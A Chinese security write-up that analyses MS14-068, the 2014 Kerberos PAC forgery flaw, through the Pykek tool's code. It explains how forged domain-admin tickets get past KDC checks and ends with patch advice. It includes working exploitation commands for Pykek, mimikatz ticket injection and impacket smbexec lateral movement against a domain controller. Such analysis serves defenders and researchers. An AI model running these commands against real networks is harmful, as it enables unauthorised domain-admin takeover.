通过解读Pykek分析MS14-068

- - -

# 通过解读Pykek分析MS14-068

2014.11.18 微软发布 [MS14-068](https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-068) 补丁，攻击者在具有任意普通域用户凭据的情况下，可通过该漏洞伪造 Kerberos 票据将普通域用户帐户提升到域管理员帐户权限。

官方通告，影响如下版本

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013430-922d76be-80b8-1.png)

经复现，发现只有 Server 2003、2008 利用成功，继续翻看官方通告，发现指出对 Server 2012 实际上不受影响。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013719-f6a98ae2-80b8-1.png)

## 利用

需要的环境

-   域控：Server 2003/2008
-   一台可访问域控的主机（加域/不加域都可以）
-   一个普通域用户凭据

利用的工具

-   Pykek

### Pykek

项目地址：[https://github.com/mubix/pykek](https://github.com/mubix/pykek)

#### 生成域管权限TGT

通过 pykek 生成一个域管权限的的TGT票据，然后可以通过 mimikatz 或 impacket 导入TGT票据进行横向移动。

伪造域管TGT票据

```plain
➜  pykek python2 ms14-068.py
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
➜  pykek

python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 -p 1234567
python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 --rc4 328727b81ca05805a68ef26acb252039
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

#### Mimikatz 加载域管TGT票据

```plain
kerberos::purge
kerberos::klist
kerberos::ptc TGT_lihua@qftm.com.ccache
```

1）在域主机win11登录的域账号QFTM\\zhangyu下，进行测试（加载票据TGT为lihua账户伪造的域管PAC）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013758-0e1f15e8-80b9-1.png)

查看访问域控后的内存票据情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013807-136038b6-80b9-1.png)

2）在域主机win11登录的本地账号WORKGROUP\\qm下，进行测试（加载票据TGT为lihua账户伪造的域管PAC）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013820-1b3ab6e2-80b9-1.png)

查看访问域控后的内存票据情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013829-2086d9fa-80b9-1.png)

注意：

-   通过票据认证时，目标主机需要为主机名-Kerberos认证不支持IP
    
-   在Win Server 2003、Win XP下使用 mimikatz 进行 `kerberos::ptc xx.cache` 内存导入票据时，会出现以下错误
    

```plain
* Injecting ticket : ERROR kuhl_m_kerberos_ptt_data ; LsaCallAuthenticationPackage KerbSubmitTicket Message : c000000d
```

#### Impacket 缓存域管TGT票据

```plain
# 指定TGT票据
➜  examples git:(master) ✗ export KRB5CCNAME=TGT_lihua@qftm.com.ccache

# 攻击域控
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@dc.qftm.com -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug

# 攻击其它Target
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@targetHostname -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013908-37b9ed2e-80b9-1.png)

## 原理

### Kerberos认证流程

#### AS\_REQ&AS\_REP

第一步：client 和 KDC AS 认证服务通信，用户身份预认证，获取TGT认购票据

（1）AS-REQ 请求，Client => KDC AS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013928-43532862-80b9-1.png)

-   客户端向 KDC 的 AS 认证服务发送的 AS-REQ 认证请求中主要包含如下信息
    -   请求的用户名(cname)
    -   域名(realm)
    -   pa-data pA-ENC-TIMESTAMP：用户密钥加密的时间戳。用于验证用户并防止重放攻击
    -   请求的服务名(sname)：AS-REQ 请求的服务都是 KDC krbtgt
    -   加密类型(etype)
    -   以及一些其他信息：如版本号，消息类型，票据有效时间，是否包含PAC，协商选项等

（2）AS-REP 响应，Client <= KDC AS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013943-4c3e6662-80b9-1.png)

-   当 KDC 的 AS 认证服务接收到客户端发来的 AS-REQ 请求后，通过活动目录查询到该用户的密码 Hash，根据 AS-REQ 的 req-body 中的 etype 加密类型，用该 Hash 对 AS-REQ 请求包的 `PA-ENC-TIMESTAMP` 进行解密。解密成功后，还会检查要求时间戳的范围在五分钟内且数据包无重放，则预认证成功。
-   返回 KDC 服务账号 krbtgt 的 NTLM Hash 加密后的 TGT（Ticket）和用户 NTLM Hash 加密的 Login Session key（AS 随机生成）。这两部分加密的数据分别对应 AS-REP 响应包中的 Ticket、Enc-part。
-   TGT 主要包含Login Session Key、时间戳和 PAC。Login Session Key的作用是让用户和KDC后几个阶段之间通信加密的会话密钥。
-   AS-REP响应包中主要包括如下信息：
    
    -   请求的用户名(cname)。
    -   域名(crealm)。
    -   TGT认购权证
        -   包含明文的版本号，域名，请求的服务名，以及加密部分enc-part。
        -   TGT中的enc-part加密部分用krbtgt密钥加密。
            -   加密部分包含Logon Session Key、用户名、域名、认证时间、票据到期时间和authorization-data。authorization-data中包含最重要的PAC特权属性证书(包含用户的RID，用户所在组的RID) 等。
    -   enc-part
        -   使用用户密钥加密Logon Session Key后的值，其作用是用于确保客户端和KDC下阶段之间通信安全。也就是AS-REP中最外层的enc-part。
    -   以及一些其他信息：如版本号，消息类型等。
-   注意：TGT票据由KDC的krbtgt ntlm hash加密，客户端无法伪造
    

#### TGS\_REQ&TGS\_REP

第二步：client 和 KDC TGS 票据授予服务通信，携带TGT认购票据，获取ST服务票据

（1）TGS-REQ 请求，Client => KDC TGS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013954-531fefd2-80b9-1.png)

-   客户端收到 KDC 的 AS-REP 回复后，拿到了TGT认购权证（Ticket）和最外层的enc-part，然后使用用户密钥解密最外层的enc-part，得到Logon Session Key。之后它会在本地缓存此 TGT认购权证 和 Logon Session Key。
-   使用 Login session key 加密客户端用户名、时间戳等信息，和TGT 一起向KDC 的TGS 票据授予服务发起请求，请求获取 XX 服务票据。
-   请求主要包含如下信息：
    -   域名(realm)。
    -   请求的服务名(sname)。
    -   TGT认购权证。
    -   Authenticator：一个抽象的概念，代表一个验证。这里使用Logon Session Key加密的时间戳。
    -   加密类型(etype)。
    -   以及一些其他信息：如版本号，消息类型，协商选项，票据到期时间等。

（2）TGS-REQ 响应，Client <= KDC TGS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014004-58ede20c-80b9-1.png)

-   KDC 的 TGS 服务接收到 TGS-REQ 请求之后，首先使用 krbtgt 密钥解密 PA-DATA pA-TGS-REQ 中的TGT认购权证中加密部分 enc-part 得到 Logon Session key 和PAC等信息，如果能解密成功则说明该TGT认购权证是KDC颁发的。
-   然后**验证PAC的签名**（PAC（ticket/enc-part/authorization-data ）中的PAC\_SERVER\_CHECKSUM、PAC\_PRIVSVR\_CHECKSUM），如果签名正确，则证明PAC未经过篡改。
-   然后使用 Logon Session Key 解密 PA-DATA pA-TGS-REQ 中的Authenticator得到时间戳、客户端用户名等信息，如果能解密成功且时间戳在有效范围内，则验证客户端的身份（对比TGT中的客户端用户名和这里Authenticator中的客户端用户名）。
-   完成上述的检测后，TGS服务发送响应包给客户端，响应包中主要包括如下信息：
    
    -   请求的用户名(cname)
    -   域名(crealm)
        
    -   ST服务票据
        
        -   包含明文的版本号，域名，请求的服务名，以及加密部分enc-part
            
        -   加密部分enc-part用用户要访问目标服务的服务用户密钥加密（要访问的目标服务信息在TGS-REQ的req-body中）（这里客户端要访问的目标服务为cifs服务：cifs/win7-01.qftm.com，cifs服务用户为WIN7-01$）
            
            -   加密部分包含用户名、域名、认证时间、票据到期时间、Service Session key和authorization-data。authorization-data中包含最重要的PAC特权属性证书(包含用户的RID，用户所在的组的RID) 等。
    -   最外层enc-part
        
        -   使用Logon Session key加密的Service Session key和客户端要访问目标服务的服务名等信息
            
        -   Service Session key作用是用于确保客户端和客户端要访问的目标服务下阶段之间通信安全
            
    -   以及一些其他信息：如版本号、消息类型等。
        
-   注意：ST票据由用户要访问目标服务的服务用户密钥加密，客户端无法伪造
    

#### AP\_REQ&AP\_REP

第三步：client 和 Server 目标服务通信，携带ST服务票据

-   AP-REQ 请求，Client => Server
    
    -   客户端接收到KDC的TGS-REP后，通过缓存的Logon Session Key解密TGS\_REP最外层的enc-part得到Service Session Key，同时在TGS\_REP最外层的ticket拿到了ST(Service Ticket)服务票据。Serivce Session Key 和 ST服务票据会被客户端缓存。
    -   客户端访问指定服务时，把客户端用户名、时间戳等信息用Server Session key加密，同服务票据（ST）发送给目标服务，发起AP-REQ请求，该请求主要包含如下的内容：
        
        -   ST服务票据(ticket)
        -   Authenticator：Serivce Session Key加密的时间戳、客户端用户名等信息
            
        -   以及一些其他信息：如版本号、消息类型，协商选项等
            
-   AP-REP 响应，Client <= Server
    
    -   服务端收到客户端发来的AP-REQ消息后，通过服务密钥解密ST服务票据得到Service Session Key和PAC等信息
    -   然后用Service Session Key 解密 Authenticator得到时间戳和客户端用户名信息。如果能解密成功且时间戳在有效范围内，则验证客户端的身份（对比ST中的客户端用户名和这里Authenticator中的客户端用户名）。
    -   验证了客户端身份通过后，服务端从ST服务票据中验证PAC中服务签名（PAC\_SERVER\_CHECKSUM），签名正确，则证明PAC未经过篡改。如果服务开启了KDC验证PAC的签名（PAC\_PRICSVR\_CHECKSUM），还会向KDC 发送KERB\_VERIFY\_PAC验证PAC 的签名。
    -   服务端从ST服务票据中取出PAC中代表用户身份权限信息（PAC\_LOGON\_INFO）的数据，然后与请求的服务ACL做对比，判断用户是否有访问服务的权限，生成相应的访问令牌。
        -   只要TGT 票据中不带有PAC，那么ST 票据中也不会带有PAC，也就没有权限访问任何服务。
    -   同时，服务端会检查AP-REQ请求中mutual-required协商选项是否为True
        -   如果为True的话，说明客户端想验证服务端的身份。此时，服务端会用Service Session Key加密时间戳作为Authenticator，在AP-REP响应包中发送给客户端进行验证。
        -   如果mutual-required选项为False的话，服务端会根据访问令牌的权限决定是否返回相应的服务给客户端。

### 提权疑问

-   PAC中存在两个签名（服务签名 PAC\_SERVER\_CHECKSUM、KDC签名 PAC\_PRICSVR\_CHECKSUM）（TGT认购票据中两个签名均为krbtgt用户的NTLM Hash进行签名、ST服务票据中服务签名为目标服务用户的NTLM Hash进行签名，KDC签名为krbtgt用户的NTLM Hash进行签名），但客户端并不知道KDC和Server用户的NTLM Hash，那么伪造PAC高权限LOGON INFO后，怎么进行有效签名呢？
-   PAC存储在Ticket票据的enc-part中，但enc-part由Server用户NTLM Hash加密，客户端并不知道Server用户的NTLM Hash，也就无法将伪造的PAC放入Ticket的enc-part中，那么怎么解决PAC的有效存储呢？
    
-   客户端协商服务端使用的加密算法，为什么是 RC4\_HMAC？
    
-   TGS-REP响应获取的ST服务票据，为什么可以作为域管权限TGT认购票据？

### 漏洞分析

漏洞攻击，伪造获取域管权限的TGT票据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

流量如下

```plain
ip.addr == 192.168.1.10 && kerberos
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014227-ae3187f0-80b9-1.png)

结合pykek源码进行分析

#### AS-REQ

Client => KDC AS

构造as-req请求包、发送as-req请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014305-c4c68e20-80b9-1.png)

1、kek.krb5.build\_as\_req函数，构造as-req请求包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014316-cb4ebcb8-80b9-1.png)

-   key (user\_key)，与key相关的加密算法为RC4\_HMAC

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014357-e3a3de56-80b9-1.png)

-   kek.krb5.build\_req\_body函数，构造 req-body（包括：KDC选项-默认0x50800000、客户端用户名、服务端用户名-默认krbtgt、时间、支持的算法-默认RC4\_HMAC）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014650-4ab64f84-80ba-1.png)

-   kek.krb5.build\_pa\_enc\_timestamp函数，构造 pa-enc-timestamp，（客户端用户NTLM Hash加密的时间戳，key\[0\]为加密算法-RC4\_HMAC，key\[1\]为用户NTLM Hash）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014658-4f8b831c-80ba-1.png)

-   将 pa-enc-timestamp 放入 padata\[0\] 中
    
-   构造pA-PAC-REQUEST，pac\_request 为 false，所以 include-pac=false
    
-   将pA-PAC-REQUEST放入padata\[1\]中
    
-   kerberos版本信息、消息类型等
    

2、kek.krb5.send\_req函数，发送as-req请求

-   使用socket与KDC连接通信，将构造的req请求包进行发送

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014725-5fddb212-80ba-1.png)

as-req请求流量如下

-   pA-ENC-TIMESTAMP，客户端用户NTLM Hash加密的时间戳
    
-   pA-PAC-REQUEST，include-pac的值决定了KDC在AS-REP响应中返回的票据是否包含PAC
    
    -   这里指定了Fasle，代表KDC AS认证服务在返回TGT认购票据中不需要包含PAC
    -   为什么这里要指定False
        
        -   如果指定为True，客户端在KDC AS-REP响应收到TGT票据时，由于TGT是由KDC的krbtgt用户NTLM Hash加密的，所以客户端无法解密提取PAC进行篡改
    -   如果获取的TGT不包含PAC，那怎么伪造PAC呢，下面会介绍
        

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014737-67325c8e-80ba-1.png)

#### AS-REP

Client <= KDC AS

接收as-rep响应、解析as-rep响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014749-6e4e8cd6-80ba-1.png)

1、kek.krb5.recv\_rep函数，接收as-rep响应

-   接收socket通信的响应数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014804-771f1be6-80ba-1.png)

2、kek.krb5.decrypt\_as\_rep函数，解析as-rep响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014814-7ce417a2-80ba-1.png)

-   调用kek.krb5.\_decrypt\_rep函数，主要解密as-rep最外层的enc-part（KDC使用客户端用户NTLM Hash加密的Logon session key，加密算法为as-req中req-body里面etype指定支持的加密算法-这里as-req=》req-body=〉etype为RC4\_HMAC）
    
    -   调用kek.crypto.decrypt函数解密，传入key\[0\]为加密算法-RC4\_HMAC，key\[1\]为客户端用户NTLM Hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014825-83d78a08-80ba-1.png)

-   得到as-rep响应包（Ticket-TGT认购权证等）、as-rep.enc-part解密后的明文

as-rep响应流量如下

-   ticket，TGT认购票据
    -   ticket.enc-part密文为KDC krbtgt用户NTLM Hash加密，加密内容包含Logon session key、客户端用户名、域名、认证时间、票据到期时间等（注意：这里由于as-req中include-pac=false，所以TGT中不包含PAC）
-   enc-part，KDC使用客户端用户NTLM Hash加密的Logon session key

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014833-8885fd78-80ba-1.png)

注意：客户端和服务端之间的加密算法

-   为什么客户端协商服务端使用的加密算法为RC4\_HMAC【AS-REQ中req-body里面的etype】
    
    -   AS-REQ中客户端使用域用户NTLM Hash加密时间戳的算法为RC4\_HMAC（服务端收到请求后通过RC4\_HMAC进行解密该部分）
        
    -   AS-REP中服务端使用krbtgt用户NTLM Hash加密Logon Session Key的算法为RC4\_HMAC（客户端收到响应后通过RC4\_HMAC进行解密该部分）
        
    -   因为MS14-068漏洞作用于域控Server 2003、2008，但是Server 2008及之后才开始支持AES\_HMAC算法，那么编写攻击Exp就要考虑Server 2003的域控了，所以当攻击者和域控协商密钥时选择RC4\_HMAC进行兼容。
        

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014849-921ec522-80ba-1.png)

-   对于服务端自己加密的票据（TGT、ST），就无须考虑客户端了（TGT由KDC自身进行加解密、ST由KDC加密，Server解密）

#### TGS-REQ

Client => KDC TGS

构造域管权限PAC、构造PAC有效签名、构造tgs-req请求包、发送tgs-req请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014900-985be9ba-80ba-1.png)

1、kek.pac.build\_pac函数，构造域管权限PAC、构造PAC有效签名

-   kek.pac.\_build\_pac\_logon\_info函数，构造域管权限
-   kek.crypto.checksum函数，构造PAC有效签名

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014909-9da4a010-80ba-1.png)

-   kek.pac.\_build\_pac\_logon\_info函数，构造域管权限（配置PAC结构PAC\_LOGON\_INFO中的GroupIds，将普通域用户所在组进行变更，新增高权限域组Domain Admins/Schema Admins/Enterprise Admins/Group Policy Creator Owners，从而使特定普通域用户具有域管权限）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014925-a7109d98-80ba-1.png)

-   kek.crypto.checksum函数，构造PAC有效签名
    
    -   Kerberos认证KDC **漏洞一**
    -   前面提到的《提权疑问》之一 “TGT中PAC结构最后存在两个签名（服务签名 PAC\_SERVER\_CHECKSUM、KDC签名 PAC\_PRICSVR\_CHECKSUM），但客户端并不知道krbtgt ntlm hash，那么如何对伪造PAC高权限LOGON INFO后的PAC进行有效签名呢？”
    -   官方文档指出PAC签名算法为HMAC算法，HMAC算法需要一个加密密钥的参与（密钥key：Server/KDC User's NTLM Hash），但官方在PAC签名功能的实际代码实现上存在问题，即非HMAC算法的checksum算法也可以通过KDC的签名校验！！！
    -   所以，利用**PAC签名漏洞**，使用非HMAC算法的MD5算法（不需要加密密钥）进行签名（Server/KDC checksum），可以构造PAC有效签名

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014933-abd9c30e-80ba-1.png)

2、kek.krb5.build\_tgs\_req函数，构造tgs-req请求包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014941-b0fc04d2-80ba-1.png)

-   session\_key (logon\_session\_key)，与session\_key相关的加密算法为RC4\_HMAC (AS\_REP响应中KDC使用RC4\_HMAC加密logon\_session\_key \[KDC为什么使用RC4\_HMAC加密该部分，上面AS\_REP中有解释\])

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014956-b9964c7e-80ba-1.png)

-   subkey，与subkey相关的加密算法为RC4\_HMAC（上面AS\_REQ中有解释，客户端为什么使用RC4\_HMAC加密数据），kek.crypto.generate\_subkey函数生成subkey，etype=RC4\_HMAC、key=16位随机数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015005-bee9f50e-80ba-1.png)

-   Kerberos认证KDC **漏洞二**
    
    -   前面提到的《提权疑问》之一 “PAC存储在Ticket票据的enc-part中，但enc-part由Server用户NTLM Hash加密，客户端并不知道Server用户的NTLM Hash，也就无法将伪造的PAC放入Ticket的enc-part中，那么怎么解决PAC的有效存储呢？”
    -   官方文档指出PAC加密存储在Ticket票据的enc-part中，当KDC收到tgs-req请求后，会解密TGT认购票据拿到PAC并校验PAC签名，但官方在PAC解密功能的实际代码实现上存在问题，即非TGT认购票据中的PAC也会被KDC进行解密并校验PAC签名！！！
    -   所以，利用**PAC解密漏洞**，在不使用TGT票据存储PAC的情况下，通过TGS\_REQ中req\_body里面的enc-authorization\_data字段存储伪造的域管权限PAC，解决PAC有效存储
-   加密PAC（密钥为subkey，加密类型为RC4\_HMAC），存储在 TGS\_REQ.req\_body.enc-authorization-data 中
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015016-c5cbfaf2-80ba-1.png)

-   kek.krb5.build\_req\_body函数，构造 req-body（包括：KDC选项-默认0x50800000、服务信息-用户名-默认krbtgt、时间、支持的算法-默认RC4\_HMAC、enc-authorization-data 存储加密的PAC）【由于这里TGS\_REQ请求的服务端用户名为krbtgt，所以TGS\_REQ请求向KDC请求的ST服务票据为KDC的服务票据，相当于TGS\_REP响应获取的ST服务票据为TGT认购票据】

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015033-d0126d2a-80ba-1.png)

-   kek.krb5.build\_ap\_req函数，构造 pA-TGS-REQ，（包括ticket、logon\_session\_key 加密的 authenticator，key\[0\]为加密算法-RC4\_HMAC，key\[1\]为logon\_session\_key）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015043-d5be9604-80ba-1.png)

-   kek.krb5.build\_authenticator函数，构造 authenticator（包括客户端用户名、时间、subkey、req\_body的checksum等）（与正常TGS\_REQ.pA-TGS-REQ.ap-req.authenticator相比，多了subkey、req\_body的checksum）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015053-dbcb4d9e-80ba-1.png)

-   将 pA-TGS-REQ 放入 padata\[0\] 中
    
-   构造pA-PAC-REQUEST，pac\_request 为 false，所以 include-pac=false【**注意**：这里TGS\_REQ中include-pac=false，且TGT中不包含PAC，为什么TGS\_REP返回的ST票据中仍包含域管权限PAC呢？因为即使include-pac=false表示返回的ST票据不需要包含PAC，但是KDC处理了 TGS\_REQ.req\_body.enc-authorization-data 中加密的PAC，导致返回的ST票据中，仍然包含PAC】
    
-   将pA-PAC-REQUEST放入padata\[1\]中
    
-   kerberos版本信息、消息类型等
    

3、kek.krb5.send\_req函数，发送tgs-req请求

-   使用socket与KDC连接通信，将构造的req请求包进行发送

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014725-5fddb212-80ba-1.png)

tgs-req请求流量如下

-   pA-TGS-REQ，ap-req
    -   ticket，TGT认购票据（不包含PAC，AS\_REQ中include-pac=false表明返回的TGT中不需要包含PAC）
    -   authenticator，logon\_session\_key加密的客户端用户名、时间、subkey、req\_body的checksum等
-   pA-PAC-REQUEST，include-pac的值决定了KDC在TGS-REP响应中返回的票据是否包含PAC
    
    -   这里指定了Fasle，代表KDC TGS票据授予服务在返回ST服务票据中不需要包含PAC
    -   根据上面的分析，实际上，这里的TGS\_REQ请求中，include-pac的值无论取false还是true，TGS\_REP响应包返回的ST服务票据中都会包含PAC
-   sname，请求的目标服务ST票据的服务信息-用户名-默认krbtgt，相当于返回的ST服务票据是一个TGT认购票据
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015151-fe32c7d6-80ba-1.png)

#### TGS-REP

Client <= KDC TGS

接收tgs-rep响应、解析tgs-rep响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015159-034210ba-80bb-1.png)

1、kek.krb5.recv\_rep函数，接收tgs-rep响应

-   接收socket通信的响应数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014804-771f1be6-80ba-1.png)

2、kek.krb5.decrypt\_tgs\_rep函数，解析tgs-rep响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015248-202097ec-80bb-1.png)

-   调用kek.krb5.\_decrypt\_rep函数，主要解密tgs-rep最外层的enc-part（KDC使用Logon session key加密的Server Session Key、客户端要访问目标服务的服务用户名信息等，加密算法为tgs-req中req-body里面etype指定支持的加密算法-这里tgs-req=》req-body=〉etype为RC4\_HMAC）
    
    -   调用kek.crypto.decrypt函数解密，传入key\[0\]为加密算法-RC4\_HMAC，key\[1\]为客户端缓存的Logon session key

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014825-83d78a08-80ba-1.png)

-   得到tgs-rep响应包（Ticket-ST服务票据等）、tgs-rep.enc-part解密后的明文

tgs-rep响应流量如下

-   ticket，ST服务票据
    -   ticket.sname，服务信息-用户名-krbtgt（相当于返回的ST服务票据为TGT认购票据）
    -   ticket.enc-part密文为客户端要访问目标Server的（这里访问的Server为KDC，用户为krbtgt）用户NTLM Hash加密，加密内容包含Server session key、客户端用户名、域名、认证时间、票据到期时间、PAC等
-   enc-part，KDC使用Logon session key加密的Server session key

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015325-363d7ab8-80bb-1.png)

### 疑问解答

-   PAC中存在两个签名（服务签名 PAC\_SERVER\_CHECKSUM、KDC签名 PAC\_PRICSVR\_CHECKSUM）（TGT认购票据中两个签名均为krbtgt用户的NTLM Hash进行签名、ST服务票据中服务签名为目标服务用户的NTLM Hash进行签名，KDC签名为krbtgt用户的NTLM Hash进行签名），但客户端并不知道KDC和Server用户的NTLM Hash，那么伪造PAC高权限LOGON INFO后，怎么进行有效签名呢？
    -   **解答**：Kerberos KDC PAC 签名漏洞
-   PAC存储在Ticket票据的enc-part中，但enc-part由Server用户NTLM Hash加密，客户端并不知道Server用户的NTLM Hash，也就无法将伪造的PAC放入Ticket的enc-part中，那么怎么解决PAC的有效存储呢？
    
    -   **解答**：Kerberos KDC PAC 解密漏洞
-   客户端协商服务端使用的加密算法，为什么是 RC4\_HMAC？
    
    -   **解答**：兼容 Server 2003 的域控环境
-   TGS-REP响应获取的ST服务票据，为什么可以作为域管权限TGT认购票据？
    -   **解答**：请求的ST服务票据为KDC服务票据

### 攻击域控

拿到域管权限的TGT认购权证（TGS-REP中返回的ST服务票据）后，可以进行PtT横向移动攻击域控

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015340-3f2f637a-80bb-1.png)

## 修复

-   安装补丁

[https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-068](https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-068)
